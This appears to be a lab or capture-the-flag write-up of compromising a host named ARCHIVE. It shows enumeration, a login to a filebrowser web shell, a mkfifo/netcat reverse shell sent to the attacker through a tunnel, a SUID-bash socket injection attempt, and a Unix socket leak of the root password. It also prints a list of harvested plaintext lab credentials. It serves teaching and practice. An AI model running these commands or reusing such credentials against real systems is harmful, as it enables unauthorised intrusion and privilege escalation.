# ARCHIVE

## Enumeration

Machine is hosted at `10.10.XXX.12`. Output from Nmap scan run [here](./#nmap):

```
Nmap scan report for ARCHIVE.skylark.com (10.10.175.12)
Host is up (0.058s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  3072 a2:20:e1:9e:43:98:72:b4:13:62:d2:df:77:ed:39:30 (RSA)
139/tcp  open  netbios-ssn Samba smbd 4.6.2
445/tcp  open  netbios-ssn Samba smbd 4.6.2
8080/tcp open  http-proxy
|_http-title: File Browser
|_http-open-proxy: Proxy might be redirecting requests
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: no-cache, no-store, must-revalidate
|     Content-Type: text/html; charset=utf-8
|     X-Xss-Protection: 1; mode=block
|     Date: Wed, 28 Aug 2024 00:57:28 GMT
|     <!DOCTYPE html><html lang="en"><head><meta charset="utf-8"><meta http-equiv="X-UA-Compatible" content="IE=edge"><meta name="viewport" content="width=device-width,initial-scale=1,user-scalable=no"><title>File Browser</title><link rel="icon" type="image/png" sizes="32x32" href="/static/img/icons/favicon-32x32.png"><link rel="icon" type="image/png" sizes="16x16" href="/static/img/icons/favicon-16x16.png"><link rel="manifest" id="manifestPlaceholder" crossorigin="use-credentials"><meta name="theme-color" content="#2979ff"><meta name="apple-mobile-web-app-capable" content="yes"><meta name="apple-mobile-web-app-status-bar-style" content="black"><meta name="apple-mobile-web-app-title" content="assets"><link rel="appl
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: no-cache, no-store, must-revalidate
|     Content-Type: text/html; charset=utf-8
|     X-Xss-Protection: 1; mode=block
|     Date: Wed, 28 Aug 2024 00:57:27 GMT
|     <!DOCTYPE html><html lang="en"><head><meta charset="utf-8"><meta http-equiv="X-UA-Compatible" content="IE=edge"><meta name="viewport" content="width=device-width,initial-scale=1,user-scalable=no"><title>File Browser</title><link rel="icon" type="image/png" sizes="32x32" href="/static/img/icons/favicon-32x32.png"><link rel="icon" type="image/png" sizes="16x16" href="/static/img/icons/favicon-16x16.png"><link rel="manifest" id="manifestPlaceholder" crossorigin="use-credentials"><meta name="theme-color" content="#2979ff"><meta name="apple-mobile-web-app-capable" content="yes"><meta name="apple-mobile-web-app-status-bar-style" content="black"><meta name="apple-mobile-web-app-title" content="assets"><link rel="appl
|   HTTPOptions: 
|     HTTP/1.0 404 Not Found
|     Cache-Control: no-cache, no-store, must-revalidate
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Wed, 28 Aug 2024 00:57:28 GMT
|     Content-Length: 14
|     Found
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|_    Request
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.94SVN%I=7%D=8/27%Time=66CE75F7%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,11E6,"HTTP/1\.0\x20200\x20OK\r\nCache-Control:\x20no-cache,
...
SF:me=\"apple-mobile-web-app-status-bar-style\"\x20content=\"black\"><meta
SF:\x20name=\"apple-mobile-web-app-title\"\x20content=\"assets\"><link\x20
SF:rel=\"appl");

Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 1.11.X (85%)
OS CPE: cpe:/o:ibm:zos:1.11
Aggressive OS guesses: IBM z/OS 1.11 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Port 8080

The landing page on port 8080 is some sort of sign in portal. I try some basic guesses but no luck:

<figure><figcaption><p>Landing page on port 8080</p></figcaption></figure>

I move on to other machines for now.

## Foothold

### `filebrowser`

Eventually I [find some credentials](../subnet-10.20.xxx.0-24/preprod.md#manual-enumeration) that reference this machine on `PREPROD` in the `10.20.XXX.0/24` subnet. I first decide to try them on port 8080 and they log me in to some sort of file server:

<figure><figcaption><p>Port 8080 after successful login</p></figcaption></figure>

Further investigation reveals it is [`filebrowser`](https://github.com/filebrowser/filebrowser), an open-source file management interface. I do not find any RCEs for this version so I start looking around for other things.

#### Potential Credentials

As I start poking around the only interesting file is `file2` which seems to contain some credentials:

<figure><figcaption><p>Potential credentials in file2</p></figcaption></figure>

I was hoping one of them would work on SSH for this machine but none did:

<figure><figcaption><p>Failed SSH logins with the discovered credentials</p></figcaption></figure>

Regardless I file them in `creds.txt`:


```
---------------------------------------  DOMAIN CREDENTIALS  ---------------------------------------

SKYLARK\kiosk           XEwUS^9R2Gwt8O914   Found in RDWeb instructions on SINGAPORE06
SKYLARK\backup_service  It4Server           Kerberoasted as kiosk from AUSTIN02
SKYLARK\helpdesk_setup  Tuna6Helper         DCSync to obtain hash and then cracked with hashcat


---------------------------------------  OTHER CREDENTIALS  ----------------------------------------

Administrator   DowntownAbbey1923       SYDNEY08 Local Administrator
Administrator   MusingExtraCounty98     PARIS03 Local Administrator
ftp_jp          ~be<3@6fe1Z:2e8         Honestly not really sure what this is but I found it on PARIS03 in C:\TFTP_SRV\backup.cfg
skylark         User+dcGvfwTbjV[]       Found on LAB in C:\backup\file.txt - Works on web portal on HOUSTON01's port 80
sa              FrogColossusMad1        Found in .git of PREPROD web server - Likely for MSSQL service running on ports 1433 and 65307 of machine
admin           Complex__1__Password!   Found in C:\inetpub\TODO.txt on PREPROD - Work on ARCHIVE port 8080
lance           circus5                 Found in file2 on ARCHIVE port 8080
baop_user       CSHrckxgVskAuVEwB0gZ    Found in file2 on ARCHIVE port 8080
s.ahmed         WelcomeToSkyl4rk!       Found in file2 on ARCHIVE port 8080
```


One thing of interest is `s.ahmed`'s password of `WelcomeToSkyl4rk!`. That looks like it could be a standard password for new users at the company. I should keep this in mind in case I want to do any password spraying later.

#### Toggle Shell

After some messing about I eventually notice a button that appears when a file is selected. It says "`Toggle Shell`" so I click it and a command prompt opens up:

<figure><figcaption></figcaption></figure>

I start messing around with some basic commands and find it is pretty locked down. At first glance I learn I can run `ls` and `pwd` but many other things return a "`Command not allowed`" message:

<figure><figcaption></figcaption></figure>

Eventually I discover I can run `nc` via this shell which seems like the desired path but I could not use the `-e` flag or any of the auxiliary commands for other shell constructions (e.g. `mkfifo`). After some Googling I found this [help thread](https://github.com/filebrowser/filebrowser/discussions/1585#discussioncomment-2524818) which describes how to edit allowed commands. I follow the instructions and add all the commands one might need to launch a shell:

<figure><figcaption><p>Editing allowed commands</p></figcaption></figure>

From here I intend to use the `nc mkfifo` technique.

#### Proxy Setup

One thing to keep in mind is this machine is on the `10.10.XXX.0/24` subnet and my machine at `192.168.45.157` may not be routable from here. I need to set up another tunnel on `AUSTIN02` that I can use to forward my reverse shell traffic. The port choice is pretty open so I just decide to use `8888` on both machines. Any traffic received by `AUSTIN02` at `10.10.XXX.254:8888` will be forwarded to my machine at `192.168.45.157:8888`. To do this I simply head to the correct `session` for `AUSTIN02` in my `ligolo-ng` `proxy` interface and enter the command:

```
listener_add --addr 10.10.169.254:8888 --to 192.168.45.157:8888
```

#### Launch Reverse Shell

Now that this tunnel is set up I can start my shell. I will need to address the shell to the just-opened listener at `10.10.XXX.254:8888`.

Unfortunately, my first attempt has a problem, it seems this prompt is not interpreting arguments correctly. I see this because all commands after `rm` were treated as arguments to rm. Fortunately I remember that one of the commands allowed now is `bash` so I can use `bash -c` and just put the `mkfifo ... nc` command in there:


```bash
bash -c "rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /usr/bin/bash -i 2>&1 | nc 10.10.169.254 8888 > /tmp/f"
```


<figure><figcaption><p>Successfully creating reverse shell</p></figcaption></figure>

User access achieved as `archive`.

## Privilege Escalation

I start with PEAS and pspy. PEAS is not particularly useful but I see some interesting items in the pspy output:

<figure><figcaption><p>Some script running as root</p></figcaption></figure>

<figure><figcaption><p>Script seems related to this socat command</p></figcaption></figure>

### Unix Domain Socket

As I start researching it seems that this command is creating a [Unix domain socket](https://en.wikipedia.org/wiki/Unix\_domain\_socket) at `/tmp/s`:

```bash
socat - UNIX-CONNECT:/tmp/s
```

A domain socket is a socket that allows data to be exchanged between two processes executing on the same host computer. Given that it is running as `root` perhaps I can hook into it somehow.

HackTricks has [a page](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/socket-command-injection) on Unix domain socket exploitation but the techniques do not seem to work in this instance:


```bash
echo "cp /usr/bin/bash /tmp/bash; chmod +s /tmp/bash; chmod +x /tmp/bash;" | socat - UNIX-CLIENT:/tmp/s
```


* The point of this command seems to be to use the socket's elevated access to create a copy of the `bash` executable with SUID set

<figure><figcaption><p>HackTricks technique failed</p></figcaption></figure>

At this point I decide to just try connecting directly to the socket. I find [this thread](https://unix.stackexchange.com/questions/26715/how-can-i-communicate-with-a-unix-domain-socket-via-the-shell-on-debian-squeeze) discussing how to connect to a Unix domain socket. It offers options for both `nc` and `socat`:

```bash
nc -U /tmp/s
```

```bash
socat - UNIX-CLIENT:/tmp/s
```

<figure><figcaption></figcaption></figure>

Both of these fail. Their messages indicate the socket is nonexistent. At this point I am thinking it has to do with the socket only being open briefly so I am trying to figure out how to time this command to run while the socket is open. Eventually this starts to seem like not the correct interpretation.

Perhaps this is not a socket that is taking data in but rather one that is outputting data. With that in mind I decide to try listening to the socket by adding a `-l` flag to `nc -U`:

```bash
nc -Ul /tmp/s
```

This works and something comes back. The returned value seems like it could be a password so I decide to try it as `root`'s password with `su`. This works and I have my elevated shell:

<figure><figcaption><p>Successful socket connection and root shell</p></figcaption></figure>

`root` access achieved. I add the credentials to my `creds.txt` file:


```
...
admin           Complex__1__Password!   Found in C:\inetpub\TODO.txt on PREPROD - Work on ARCHIVE port 8080
lance           circus5                 Found in file2 on ARCHIVE port 8080
baop_user       CSHrckxgVskAuVEwB0gZ    Found in file2 on ARCHIVE port 8080
s.ahmed         WelcomeToSkyl4rk!       Found in file2 on ARCHIVE port 8080
root            BreakfastVikings999     ARCHIVE root user (must gain user access as archive and then use credentials with su - root does not have SSH access apparently)
```


## Post-Exploit

This machine seems to be largely standalone. I got the credentials pretty late in the lab and it does not seem to have access to any networks or anything I did not already have. I do some cursory post-exploit enumeration but find nothing of note. I keep the shell open in case I need it but for now I am moving on.
